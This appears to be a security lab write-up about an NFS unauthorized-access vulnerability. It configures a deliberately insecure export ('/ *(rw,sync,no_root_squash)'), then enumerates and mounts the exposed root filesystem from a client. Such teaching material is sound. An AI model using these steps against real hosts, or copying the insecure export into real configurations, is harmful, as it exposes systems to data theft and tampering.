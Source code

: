 # Unauthorized Access Vulnerability in NFS

## Vulnerability Description

NFS (Network File System) is a network file system that allows sharing of files across different network hosts. When the NFS server is not properly configured or lacks access control mechanisms, there may be an unauthorized access vulnerability. Attackers can use this vulnerability to access files and data on the affected host, and even modify or delete sensitive information.

## Environment Setup

```
# Install nfs service
yum install nfs-utils.x86_64 -y

# Start the service
systemctl start nfs-server.service

# Set up auto-start
systemctl enable rpcbind.service
systemctl enable nfs-server.service

# Configure nfs
vim /etc/exports

/ *(rw,sync,no_root_squash)

# Start sharing
exportfs -r
```

## Vulnerability Exploitation

View sharing

```
[root@localhost tmp]# showmount -e
Export list for localhost.localdomain:
/ *
```

Client mount command

```
mkdir /tmp/test
mount -t nfs 192.168.32.183:/ /tmp/test
```

Scan nfs

```
[root@localhost tmp]# rpcinfo -p 192.168.32.183
   program vers proto   port  service
    100000    4   tcp    111  portmapper
    100000    3   tcp    111  portmapper
    100000    2   tcp    111  portmapper
    100000    4   udp    111  portmapper
    100000    3   udp    111  portmapper
    100000    2   udp    111  portmapper
    100005    1   udp  20048  mountd
    100005    1   tcp  20048  mountd
    100005    2   udp  20048  mountd
    100024    1   udp  38880  status
    100005    2   tcp  20048  mountd
    100024    1   tcp  60551  status
    100005    3   udp  20048  mountd
    100005    3   tcp  20048  mountd
    100003    3   tcp   2049  nfs
    100003    4   tcp   2049  nfs
    100227    3   tcp   2049  nfs_acl
    100003    3   udp   2049  nfs
    100003    4   udp   2049  nfs
    100227    3   udp   2049  nfs_acl
    100021    1   udp  48592  nlockmgr
    100021    3   udp  48592  nlockmgr
    100021    4   udp  48592  nlockmgr
    100021    1   tcp  42350  nlockmgr
    100021    3   tcp  42350  nlockmgr
    100021    4   tcp  42350  nlockmgr
```

View the mounted directory, all the files under the / directory will appear

```
ls /tmp/test/
```

![image-20230130132416011](../../.gitbook/assets/image-20230130132416011.png)